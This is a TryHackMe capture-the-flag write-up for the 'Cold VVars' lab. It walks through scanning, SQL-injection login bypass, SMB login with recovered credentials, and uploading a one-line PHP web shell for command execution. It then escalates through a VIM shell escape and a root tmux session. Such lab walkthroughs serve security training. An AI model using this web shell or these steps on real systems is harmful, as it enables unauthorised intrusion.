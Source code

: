 # Cold VVars
![image](https://user-images.githubusercontent.com/5285547/125272663-03ea6780-e304-11eb-9595-4169d0b8fdc3.png)
Room link: https://tryhackme.com/room/coldvvars

Target IP: 10.10.236.49

## Nmap 

```
PORT     STATE SERVICE
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8080/tcp open  http-proxy
8082/tcp open  blackice-alerts
```

## Websites
### Port 8080

After a quick gobuster I found a new endpoint /dev, can use OPTIONS to bypass the 403,405
```
http://10.10.236.49:8080/dev/
http://10.10.236.49:8080/dev/note.txt
```
```
curl 10.10.236.49:8080/dev/note.txt 
```
Contents: 
```
Secure File Upload and Testing Functionality
```

### Port 8082

Home page
```
http://10.10.236.49:8082
```

### Brutefoce login (sqli) 
Scanning the URL with gobuster shows a login page (/login)  

[Bypass List: Sql Injection List](/tryhackme/coldVVars/sql_Injection_Bypass.txt)

Using burp's intruder we can capture the login and use the payloads from the list above. 

![image](https://user-images.githubusercontent.com/5285547/125278244-60e91c00-e30a-11eb-8c17-5f1195f81baf.png)

### SMB

Seeing we have SMB ports open lets enum the SMB protocal. 

```
smbclient -L \\10.10.236.49
```

![image](https://user-images.githubusercontent.com/5285547/125278478-b45b6a00-e30a-11eb-8dc2-12314c2701ae.png)

We have no READ/WRITE as a guest user. Lets try the creds from above for the SECURED samba share. 

Login SMB
```
smbclient \\\\10.10.236.49\\Secured -U ArthurMorgan
pass: DeadEye
```

Now we are logged in we can get a reverse shell, putting a file on the server. 

```
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.2 kb/s) (average 0.2 kb/s)
smb: \> ls
  .                                   D        0  Mon Jul 12 12:18:30 2021
  ..                                  D        0  Thu Mar 11 12:52:29 2021
  note.txt                            A       45  Thu Mar 11 12:19:52 2021
  shell.php                           A       28  Mon Jul 12 12:18:30 2021

                7743660 blocks of size 1024. 4483140 blocks available
```

Knowing where note.txt was stored from earlier we can get the shell.php file at  
```
http://10.10.236.49/dev/shell.php?c=id
```
![image](https://user-images.githubusercontent.com/5285547/125279259-a528ec00-e30b-11eb-8c23-8fb65ac80de3.png)

You can use a php reverse shell here, I like to test with a simple php script first.  
shell.php
```
<?php system($_GET['c']);?>
```

## User (www-data > ArthurMorgan)

Using the php reverse shell to access the box we can find the flag in the users home directory.  
```
/home/ArthurMargan/user.txt
```

Switch to ArthurMorgan
```
su ArthorMorgan
DeadEye
```

## User 2 (marston)

Looking around the system and using linpeas shows an open port on localhost:4545

```
netstat -tulwn
```

This shows port 4545 open on local host. Lets try to connect to it and see what's on it. 

```
nc -lnvp 4545


```

Using option 4 we see VIM being used. Checking GTFObins shows us we can elevate to Marston with 

```
:!/bin/sh
```
To get a shell back as marston

From the linpeas earlier I noticed there was a tmux session running. Lets see whats running on their. 

```
tmux attach-session -t 0
```

Killing a few sessions you can see a root window still logged in, use that to get the last flag. 

![image](https://user-images.githubusercontent.com/5285547/125286984-4f0c7680-e314-11eb-93c3-2e812ac73779.png)

And the box is done, thanks to the creator for this one! 



